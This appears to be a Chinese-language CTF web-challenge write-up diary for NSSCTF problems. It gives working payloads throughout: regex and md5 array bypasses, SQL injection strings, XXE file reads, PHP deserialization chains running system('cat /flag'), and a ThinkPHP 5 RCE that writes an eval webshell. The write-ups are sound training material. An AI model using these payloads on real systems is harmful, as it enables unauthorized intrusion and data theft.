} | |
else{ | |
die("no"); | |
} | |
// perform validations on the form data | |
} | |
else{ | |
echo '<p>out!</p>'; | |
} | |
} | |
else{ | |
echo 'nonono!'; | |
} | |
echo '<hr>'; | |
} | |
?> |
这种 php 代码审计题不会太难，耐着性子看下去就能做出来。
首先得传入一个名为 aaa 的 get 参数，并且长度要小于 20.
然后就是本题的难点：
$aaa = preg_replace('/^(.*)level(.*)$/', '${1}<!-- filtered -->${2}', $_GET['aaa']); | |
if(preg_match('/pass_the_level_1#/', $aaa)){ | |
echo "here is level 2"; |
如何绕过这句话。
这句话意思就是说，只要我们传入的参数里面有 'level'，就会被替换成 '<!-- filtered -->'
而下一句话又必须是 'pass_the_level_1#'。
但这种正则写法是存在缺陷的: . 用于任意字符匹配并不包括换行符，而且 ^ $ 界定了必须在同一行，否则匹配不到，直接利用 %0a 进行绕过。
对于为什么要用 %23 , 不用 # ?
因为 URL 中的 #是位置标识符
可以看看这个文章
而对于正则匹配绕过的一些细节和资料，可以参考这两篇：
preg_match 绕过
有关于正则匹配的 s 和 m 修饰符的小 Tip
所以使用：
?aaa=%0apass_the_level_1%23
就可以绕过第一层。
进入第二层，让我们传入 post 参数 admin 和 root_pwd，并要求他两不能相等，且 sha 加密后的值相等，由于 sha 函数和 md5 函数类似，均不可处理数组，所以我们可以采用数组绕过：
admin[]=1&root_pwd[]=2
然后是最后一层，将我们传入的 level_3 转换为 json 格式后，要求和变量 result 弱比较相等，这里我们并不知道变量 result 是个什么东东，但是 php 里面有个很好用的东西，就是布尔值 True 除了与 0,False 比较不相等，和其他任意值弱比较返回值皆为真。
所以可以这样：
admin[]=1&root_pwd[]=2&level_3=
当然，也可以传入其他值，这里经过尝试发现字符串都可以。
# 2023/9/24
# [HNCTF 2022 Week1]easy_upload
# 文件上传，一句话木马
很简单的文件上传题目，一句话木马就可以解决，不过这题目标签可还行......
# 2023/9/25
# [SWPUCTF 2022 新生赛] 奇妙的 MD5
# 弱比较，数组绕过，md5 碰撞，代码审计。
真的很奇妙的一道题，奇妙到你要是知道这个奇妙的东西，你会觉得这题简单的真奇妙！
进入题目只有一个提交框和一串描述：
可曾听过 ctf 中一个奇妙的字符串
打开源代码，没用。
打开开发者工具，查看网络，在响应包的标头看到：
select * from 'admin' where password=md5($pass,true)
对于这句话，我们可以使用这个字符串进行绕过：
ffifdyop
经过 md5 加密后：276f722736c95d99e921722cf9ed621c
再转换为字符串：'or'6 <乱码> 即 'or'66�]��!r,��b
用途：
select * from admin where password=''or'6 <乱码>'
就相当于 select * from admin where password=''or 1 实现 sql 注入
输入后页面跳转：
仔细想想在哪里找线索
检查网页源代码发现：
<!-- | |
$x= $GET['x']; | |
$y = $_GET['y']; | |
if($x != $y && md5($x) == md5($y)){ | |
; | |
--> |
数组绕过：
?x[]=1&y[]=2
再次跳转：
<?php | |
error_reporting(0); | |
include "flag.php"; | |
highlight_file(__FILE__); | |
if($_POST['wqh']!==$_POST['dsy']&&md5($_POST['wqh'])===md5($_POST['dsy'])){ | |
echo $FLAG; | |
} |
继续数组绕过：
wqh[]=1&dsy[]=2
# 2023/9/26
# [GKCTF 2021]easycms
# 弱口令，RCE，目录穿越，文件上传，信息收集。
说起来这还是我第一次接触这种类似真实渗透环境的题目。
进入题目后是一个精美的界面，源代码和开发者工具中并不存在什么有用的信息，这种没什么入手点的就可以扫一下网页，看看有没有什么其他可用的界面。
扫到了 admin.php。
用户名猜测 admin，密码简单爆破一下，得到 12345.
登录。
进入后台管理，经过一番分析和尝试后发现在设计 - 主题 - 自定义 - 导出主题 可以下载文件

那几栏必填的随便写。
然后打开你浏览器的下载记录，复制压缩包的链接地址：
http://node4.anna.nssctf.cn:28411/admin.php?m=ui&f=downloadtheme&theme=L3Zhci93d3cvaHRtbC9zeXN0ZW0vdG1wL3RoZW1lL2RlZmF1bHQvZi56aXA=
将主题那一栏解码：
/var/www/html/system/tmp/theme/default/f.zip
可以看到它的路径，那么我们可以猜测 flag 在根目录，将 /flag 编码后替换主题那一栏位置，搜索网址：
http://node4.anna.nssctf.cn:28411/admin.php?m=ui&f=downloadtheme&theme=L2ZsYWc=
得到一个压缩包，改为 txt 文件后缀查看即为 flag。
还有一种方法就是进到后台发现 设计 -> 主题 -> 首页处可以编辑页面，支持 php 源代码，于是考虑插入 php 在网站页面爆出 flag，随便找个地方，比如 头部 处写一个 php 试试，保存时出现让我们创建一个文件的提示
所以需要构造出这样一个文件，在 设计 -> 组件 -> 素材库 发现上传文件入口，先随便上传一个本地 txt，根据先前编辑页面的路径，将上传到素材库的文件重命名为 ../../../../../system/tmp/xmen 形成目录穿越。
但像 php, phtml, .htaccess 什么的都上传不了，上传成功后可以编辑文件名、更换附件
然后再回去，写一个一句话木马保存后，回到首页就可以操作了。
# 2023/9/27
# [HNCTF 2022 Week1]What is Web
# 前端，信息收集
简单题，秒了！
第一步，检查网页源代码。
第二步，ctrl+F 搜索 <!
看到：
<!--f|l|a|g|is|base64decode(TlNTQ1RGe0hlbGwwX1dlYmVyX1dlYzBtM19jb21lXzJfd2ViX3cwcjFkIX0=)--> |
第三步，base64 解码。
# 2023/9/28
# [HNCTF 2022 Week1]Interesting_http
# http 协议
打开题目后看到它礼貌的说：
# Please post me a want !
那就给它传一个呗，
want=haha
回显：
# And you must tell me what your want is?
# flag
# fuck star
那当然想要 fuck star 了.
哈哈，不过没什么反应，还是要 flag 吧。
want=flag
回显：
# Not admin!
可恶，那就检查一下 cookie 里面有没有东西吧，毕竟这种题目 admin 信息大都藏在 cookie 里。
看到：
user:notadmin
改了：
user:admin
回显：
# Not location
那就：
X-Forwarded-For：127.0.0.1
结束。
# 2023/9/29
# [第五空间 2021] pklovecloud
# php 反序列化，php 代码审计
题目源码：
<?php | |
include 'flag.php'; | |
class pkshow | |
{ | |
function echo_name() | |
{ | |
return "Pk very safe^.^"; | |
} | |
} | |
class acp | |
{ | |
protected $cinder; | |
public $neutron; | |
public $nova; | |
function __construct() | |
{ | |
$this->cinder = new pkshow; | |
} | |
function __toString() | |
{ | |
if (isset($this->cinder)) | |
return $this->cinder->echo_name(); | |
} | |
} | |
class ace | |
{ | |
public $filename; | |
public $openstack; | |
public $docker; | |
function echo_name() | |
{ | |
$this->openstack = unserialize($this->docker); | |
$this->openstack->neutron = $heat; | |
if($this->openstack->neutron === $this->openstack->nova) | |
{ | |
$file = "./{$this->filename}"; | |
if (file_get_contents($file)) | |
{ | |
return file_get_contents($file); | |
} | |
else | |
{ | |
return "keystone lost~"; | |
} | |
} | |
} | |
} | |
if (isset($_GET['pks'])) | |
{ | |
$logData = unserialize($_GET['pks']); | |
echo $logData; | |
} | |
else | |
{ | |
highlight_file(__file__); | |
} | |
?> |
看到反序列化题目，我的思路是先看链子末端，也就是能拿到 flag 的地方，这题毫无疑问就在这里：
$file = "./{$this->filename}"; | |
if (file_get_contents($file)) { | |
return file_get_contents($file); | |
} | |
else { | |
return "keystone lost~"; | |
} |
注意到题目开头就引入 flag.php 文件，那极有可能 flag 就藏在这个文件中，不过值得沉思的是这题用不了伪协议了，因为这里：
$file = "./{$this->filename}"; |
它前面有个 './'，意思是处在当前目录。
先不管前面是什么了，我们先看看他是由哪个函数调用的 ——echo_name (），找找它在哪里还出现过。
function __toString() | |
{ | |
if (isset($this->cinder)) | |
return $this->cinder->echo_name(); | |
} |
除了这个地方，pkshow 类中也存在，不过很明显我们目的是调用 acp 类中的，但我们发现 acp 类中的构造函数居然让 cinder 的值等于 pkshow 类，那不行，这个一会肯定的操作下。
至于__toString 触发条件也很简单：
$logData = unserialize($_GET['pks']); | |
echo $logData; |
这里的 echo 函数即可触发，不理解的可以看看我反序列化那篇文章。
然后链子基本确定了，还有最后一个点，也就是最开始 echo_name () 函数中的
$this->openstack = unserialize($this->docker); | |
$this->openstack->neutron = $heat; | |
if($this->openstack->neutron === $this->openstack->nova) |
看别人题解说是用指针引用来满足条件的，不过我当时没想那么多，压根就没给它赋值，误打误撞用 null === null 绕过了。
so, 上题解：
<?php | |
class pkshow | |
{ | |
function echo_name() | |
{ | |
return "Pk very safe^.^"; | |
} | |
} | |
class acp | |
{ | |
protected $cinder; | |
public $neutron; | |
public $nova; | |
function __construct() | |
{ | |
$this->cinder = new ace; // 注意下这里，把构造函数改了改。 | |
} | |
function __toString() | |
{ | |
if (isset($this->cinder)) | |
return $this->cinder->echo_name(); | |
} | |
} | |
class ace | |
{ | |
public $filename='flag.php'; | |
public $openstack; | |
public $docker; | |
function echo_name() | |
{ | |
$this->openstack = unserialize($this->docker); | |
$this->openstack->neutron = $heat; | |
if ($this->openstack->neutron === $this->openstack->nova) { | |
$file = "./{$this->filename}"; | |
if (file_get_contents($file)) { | |
return file_get_contents($file); | |
} else { | |
return "keystone lost~"; | |
} | |
} | |
} | |
} | |
$a=new acp(); | |
echo urlencode(serialize($a)); |
？pks=O%3A3%3A%22acp%22%3A3%3A%7Bs%3A9%3A%22%00%2A%00cinder%22%3BO%3A3%3A%22ace%22%3A3%3A%7Bs%3A8%3A%22filename%22%3Bs%3A8%3A%22flag.php%22%3Bs%3A9%3A%22openstack%22%3BN%3Bs%3A6%3A%22docker%22%3BN%3B%7Ds%3A7%3A%22neutron%22%3BN%3Bs%3A4%3A%22nova%22%3BN%3B%7D
检查源代码看见：
<?php | |
$heat="asdasdasdasd53asd3a1sd3a1sd3asd"; | |
$flag="flag in /nssctfasdasdflag"; |
行，不过这里一定要注意，用目录穿越，不能直接 /nssctfasdasdflag，因为人家前面有./
<?php | |
class pkshow | |
{ | |
function echo_name() | |
{ | |
return "Pk very safe^.^"; | |
} | |
} | |
class acp | |
{ | |
protected $cinder; | |
public $neutron; | |
public $nova; | |
function __construct() | |
{ | |
$this->cinder = new ace; | |
} | |
function __toString() | |
{ | |
if (isset($this->cinder)) | |
return $this->cinder->echo_name(); | |
} | |
} | |
class ace | |
{ | |
public $filename='../nssctfasdasdflag'; | |
public $openstack; | |
public $docker; | |
function echo_name() | |
{ | |
$this->openstack = unserialize($this->docker); | |
$this->openstack->neutron = $heat; | |
if ($this->openstack->neutron === $this->openstack->nova) { | |
$file = "./{$this->filename}"; | |
if (file_get_contents($file)) { | |
return file_get_contents($file); | |
} else { | |
return "keystone lost~"; | |
} | |
} | |
} | |
} | |
$a=new acp(); | |
echo urlencode(serialize($a)); |
?pks=O%3A3%3A%22acp%22%3A3%3A%7Bs%3A9%3A%22%00%2A%00cinder%22%3BO%3A3%3A%22ace%22%3A3%3A%7Bs%3A8%3A%22filename%22%3Bs%3A19%3A%22..%2Fnssctfasdasdflag%22%3Bs%3A9%3A%22openstack%22%3BN%3Bs%3A6%3A%22docker%22%3BN%3B%7Ds%3A7%3A%22neutron%22%3BN%3Bs%3A4%3A%22nova%22%3BN%3B%7D
这样就拿到 flag 了.
# 2023/9/30
# [SWPUCTF 2022 新生赛] ez_rce
# RCE,thinkphp,PHP，命令执行
打开题目：
真的什么都没有吗？
扫一下，扫到 robots.txt, 打开看看：
User-agent: * | |
Disallow: | |
- /NSS/index.php/ |
打开 / NSS/index.php/
看到 thinkphp v5，不出意外这是一个老 cve 了，
可以参考这篇文章：
ThinkPHP 漏洞大全
既然版本号是 5.0，那就用那个通杀 RCE-payload 试试
?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami
发现回显出：www-data 。说明能用，那就用那个上传木马文件的
?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=12345.php&vars[1][1]=<?php @eval($_POST[shell]); ?>
访问：/NSS/12345.php
用蚁剑连接，在 /nss/ctf/flag/flag 中找到。
# 2023/12/3
# [NCTF 2019]Fake XML cookbook
# xxe, 代码审计
打开题目是一个登录框，用户名 admin，密码 123456 尝试，回显：
<br />
<b>Deprecated</b>: Function libxml_disable_entity_loader() is deprecated in <b>/var/www/html/doLogin.php</b> on line <b>11</b><br />
<br />
<b>Warning</b>: Cannot modify header information - headers already sent by (output started at /var/www/html/doLogin.php:11) in <b>/var/www/html/doLogin.php</b> on line <b>31</b><br />
<result><code>0</code><msg>admin;</msg></result>
结合题目名称可以判断出是一道 xml 注入，具体可以参考以下：
从 XML 相关一步一步到 XXE 漏洞
浅谈 XML 实体注入漏洞
XXE 初识
截包构造外部实体：
POST /doLogin.php HTTP/1.1 | |
Host: node4.anna.nssctf.cn:28316 | |
X-Requested-With: XMLHttpRequest | |
Content-Type: application/xml;charset=UTF-8 | |
Referer: http://node4.anna.nssctf.cn:28316/ | |
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36 | |
Accept-Encoding: gzip, deflate | |
Accept-Language: zh-CN,zh;q=0.9 | |
Accept: application/xml, text/xml, */*; q=0.01 | |
Origin: http://node4.anna.nssctf.cn:28316 | |
Content-Length: 65 | |
<?xml version="1.0" encoding="utf-8"?> | |
<!DOCTYPE not [ | |
<!ENTITY admin SYSTEM "file:///flag"> | |
]> | |
<user><username>&admin;</username><password>3</password></user> |
得到 flag
# [HNCTF 2022 WEEK2]ez_SSTI
# SSTI,Flask,Python,Jinja2
简单的 Jinja2 注入，几乎没有过滤东西，

# [GDOUCTF 2023] 反方向的钟
# 反序列化，php 伪协议，php
进入题目提示：
# you can not see me but you can see me
刷新试试：
<?php | |
error_reporting(0); | |
highlight_file(__FILE__); | |
// flag.php | |
class teacher{ | |
public $name; | |
public $rank; | |
private $salary; | |
public function __construct($name,$rank,$salary = 10000){ | |
$this->name = $name; | |
$this->rank = $rank; | |
$this->salary = $salary; | |
} | |
} | |
class classroom{ | |
public $name; | |
public $leader; | |
public function __construct($name,$leader){ | |
$this->name = $name; | |
$this->leader = $leader; | |
} | |
public function hahaha(){ | |
if($this->name != 'one class' or $this->leader->name != 'ing' or $this->leader->rank !='department'){ | |
return False; | |
} | |
else{ | |
return True; | |
} | |
} | |
} | |
class school{ | |
public $department; | |
public $headmaster; | |
public function __construct($department,$ceo){ | |
$this->department = $department; | |
$this->headmaster = $ceo; | |
} | |
public function IPO(){ | |
if($this->headmaster == 'ong'){ | |
echo "Pretty Good ! Ctfer!\n"; | |
echo new $_POST['a']($_POST['b']); | |
} | |
} | |
public function __wakeup(){ | |
if($this->department->hahaha()) { | |
$this->IPO(); | |
} | |
} | |
} | |
if(isset($_GET['d'])){ | |
unserialize(base64_decode($_GET['d'])); | |
} | |
?> |
本题主要考点就在于调用 school 类中的 IPO 函数，
具体可以参考这篇文章：
<?php | |
error_reporting(0); | |
class teacher{ | |
public $name; | |
public $rank; | |
public function __construct(){ | |
$this->name = 'ing'; | |
$this->rank = 'department'; | |
} | |
} | |
class classroom{ | |
public $name; | |
public $leader; | |
public function __construct(){ | |
$this->name = 'one class'; | |
$this->leader = new teacher; | |
} | |
} | |
class school{ | |
public $department; | |
public $headmaster; | |
public function __construct(){ | |
$this->department = new classroom; | |
$this->headmaster = 'ong'; | |
} | |
} | |
$a = new school; | |
echo base64_encode(serialize($a)); |
生成 payload。
题中说了 flag 应该在 flag.php 中，因此我们直接用 php 的内置类 SplFileObject 来读取文件内容。由于没有输出，想要读取到文件里的内容要用伪协议。
POST：
a=SplFileObject&b=php://filter/read=convert.base64-encode/resource=flag.php
# 2023/12/4
# [SWPUCTF 2022 新生赛] ez_1zpop
# 反序列化，弱比较，php 代码审计。
<?php | |
error_reporting(0); | |
class dxg | |
{ | |
function fmm() | |
{ | |
return "nonono"; | |
} | |
} | |
class lt | |
{ | |
public $impo='hi'; | |
public $md51='weclome'; | |
public $md52='to NSS'; | |
function __construct() | |
{ | |
$this->impo = new dxg; | |
} | |
function __wakeup() | |
{ | |
$this->impo = new dxg; | |
return $this->impo->fmm(); | |
} | |
function __toString() | |
{ | |
if (isset($this->impo) && md5($this->md51) == md5($this->md52) && $this->md51 != $this->md52) | |
return $this->impo->fmm(); | |
} | |
function __destruct() | |
{ | |
echo $this; | |
} | |
} | |
class fin | |
{ | |
public $a; | |
public $url = 'https://www.ctfer.vip'; | |
public $title; | |
function fmm() | |
{ | |
$b = $this->a; | |
$b($this->title); | |
} | |
} | |
if (isset($_GET['NSS'])) { | |
$Data = unserialize($_GET['NSS']); | |
} else { | |
highlight_file(__file__); | |
} |
这道题目链子很简单，关键点就在于绕过 wakeup 函数和 md5，
序列化触发__wakeup,__destruct，__wakeup 方法中，给 impo 实例一个 dxg 对象，并直接 return，无法获取有效信息，绕过__wakeup 的方法很简单，只需要将反序列化后的字符串，将对象属性数量改大，如，O:3:“fin”:3:{s:1:“a”;N;s:3:“url”;N;s:5:“title”;N;} => O:3:“fin”:4:
__destruct 方法触发就很简单了，将自己当字符串输出，直接触发__toString 方法，返回 fmm 方法，至于 md5 加密是一个弱比较：
//md5 ($this->md51) == md5 ($this->md52) 弱等于 | |
// s155964671a =md5=> 0e342768416822451524974117254469 | |
// s214587387a =md5=> 0e848240448830537924465865611904 |
/?NSS=O:2:"lt":4:{s:4:"impo";O:3:"fin":3:{s:1:"a";s:6:"system";s:3:"url";s:21:"https://www.ctfer.vip";s:5:"title";s:9:"cat /flag";}s:4:"md51";s:11:"s155964671a";s:4:"md52";s:11:"s878926199a";} |
# [GDOUCTF 2023]<ez_ze>
Jinja2,SSTI，vim 泄露
经测试，禁用了_ . [] \ request pop os popen 等，
绕过。可以通过使用 attr () 绕过，然后这里的 lipsum 用 测了一下发现是个方法
<function generate_lorem_ipsum at 0x7fcddfa296a8>
然后用他直接调用__globals__发现可以直接执行 os 命令，测了一下发现__builtins__也可以用，又学到了一种新方法，只能说师傅们 tql

# 2023/12/5
# [SWPUCTF 2022 新生赛] ez_sql
# SQL 注入，空格绕过，双写绕过
进入题目：
年轻的 Web 手啊！
看题目名就知道你该干嘛了吧～
用相对安全的方式传参吧
奥对了参数是 nss
post 传参 nss=1,
得到：
Flag: NSSCTF
This is true flag: NSSCTF
假的 flag，参数为 1 的时候没有报错，为 2 和任何数的时候报，发现空格被过滤了，然后 union 需要双拼写
0'/**/ununionion/**/select/**/1,2,3;#
发现存在 3 个
Flag: 2
This is true flag: 3
数据库为 NSS_db
测表：
2'/**/ununionion/**/select/**/1,database(),group_concat(table_name)/**/from/**/infoorrmation_schema.tables/**/where/**/table_schema='NSS_db'#
得到：NSS_tb 和 users
查表的字段发现 flag
nss=2'/**/ununionion/**/select/**/1,database(),group_concat(column_name)/**/from/**/infoorrmation_schema.columns/**/where/**/table_name='NSS_tb';#
Flag: NSS_db
This is true flag: id,Secr3t,flll444g
查字段的数据
nss=2'/**/ununionion/**/select/**/1,group_concat(Secr3t),group_concat(flll444g)/**/from/**/NSS_tb;#
得到 flag。
# [NISACTF 2022]join-us
# 报错注入
看着很唬人，在登录界面看到：
can u get flag ?
输入 1 得到结果：
message: txw4ever
输入 1'# 发现正常显示。
用 fuzz 字典模糊测试一下过滤了哪些关键字，过滤了很多，但可以使用 extractvalue 来进行报错注入，空格可以使用 /**/ 或者 () 绕过。